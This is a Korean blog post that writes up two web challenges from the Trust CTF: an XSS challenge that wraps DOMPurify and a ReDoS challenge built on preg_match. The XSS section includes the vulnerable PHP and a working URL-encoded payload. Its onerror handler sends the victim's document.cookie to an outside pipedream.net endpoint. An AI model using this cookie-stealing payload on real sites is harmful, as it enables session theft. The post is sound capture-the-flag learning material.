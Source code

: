 ```yaml
---
layout: post
date: 2021-02-28 00:00:10
title: "Trust CTF Write Up"
categories: CTF
tags: [XSS, ReDos, Javascript]
author:
  - Jeongwon Jo

---
```

![](https://github.com/wjddnjs33/image/blob/main/TrustCTF/home.png?raw=true)

오늘은 디미고의 Trust라는 팀에서 CTF를 주최해서 참여를 했었습니다. 개인적인 일도 있고 해서 아침부터 참여하지 못 하고, 오후에 조금 참여를 했습니다.

---
## <span style="color:#21C587"></span> (Web) babyxss [270 pts]

> babyxss 문제는 DOMPurify Bypass로 위장한 간단한 XSS 문제입니다.

```php
<?php
require_once("secrets.php");
# This Challenge using newest version DomPurify..! Maybe unexploitable!!

if(isset($_GET['name'])) {
    header("content-security-policy: base-uri 'self'; block-all-mixed-content; connect-src 'self';");
    header('X-Frame-Options: DENY');
    echo "<h1 id='name'>Hello </h1>";
    echo '<script src="https://code.jquery.com/jquery-3.5.1.min.js"integrity="sha256-9/aliU8dGd2tb6OSsuzixeV4y/faTqgFtohetphbbj0=" crossorigin="anonymous"></script>';
    echo "<script type='text/javascript' src='https://cure53.de/purify.js'></script><script>var name='". base64_encode($_GET['name']) ."';document.getElementById('name').innerHTML += DOMPurify.sanitize($('<p>').html(atob(name)).text())</script>";
}

show_source(__FILE__);
```
문제로 들어오면 위와 같은 코드가 나오는데 보면 CSP도 걸려 있고, 밑에는 DOMPurify를 이용해서 XSS를 대응하고 있는 것을 볼 수 있습니다. 그래서 그냥 DOMPurify Bypass Payload를 아무 거나 삽입해서 트리거가 되길래 쿠키를 탈취해서 플래그를 얻었습니다.<br>

하지만 트리거가 된 이유는 DOMPurify를 우회해서가 아닙니다. DOMPurify는 최신 버전을 사용하고 있기 때문에 우회하는 건 불가능했습니다. 

```javascript
$('<p>').html(atob(name)).text()
```
하지만 위 코드를 `sanitize()` 메서드의 인자로 넘겨주고 있는 것을 볼 수 있습니다. 바로 저기서 DOM 내부에 잠시 들어가게 되는데 저때 XSS가 트리거가 되는 것 입니다. 그래서 일반적인 페이로드를 이용해서도 XSS트리거를 할 수 있습니다.

```
https://xss.trustctf.xyz/?name=%3Csvg%3E%3C/p%3E%3Cstyle%3E%3Ca%20id=%22%3C/style%3E%3Cimg%20src=1%20onerror=location.href=%27https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/?f=%27.concat(document.cookie)%3E%22%3E
```

> FLAG : TRUST{cf909172b91c8bf3f70c0e71f2809f36}

---
## <span style="color:#21C587"></span> (Web) FLAG Checker [1000 pts]

> FLAG Checker 문제는 간단한 ReDos 문제입니다. 이론만 저번에 공부하고 처음 해보는데 그냥 신기한 기법인 거 같습니다. 

```php
Wrong.... <?php
    include "./secret.php";
    $result = preg_match("/{$_GET['flag']}/", $flag);
    if ($flag === $_GET['answer'] && $result === 1) {
        echo $flag;
    }
    else {
        echo "Wrong....";
    }

    highlight_file(__FILE__);
?>
```
문제로 들어오면 위와 같이 나오는데 얼마전에 이런 문제를 본적이 있어서 바로 ReDos가 생각이 났고, 해당 기법으로 슥삭 해주니 플래그가 나왔습니다. 해당 문제와 비슷한 문제가 나중에 webhacking.kr에도 올라온다고 해서 따로 익스 코드는 올리지 않겠습니다.

> FLAG : TRUST{2ef0c0b759425eed6d3932c109e0fe74}

---
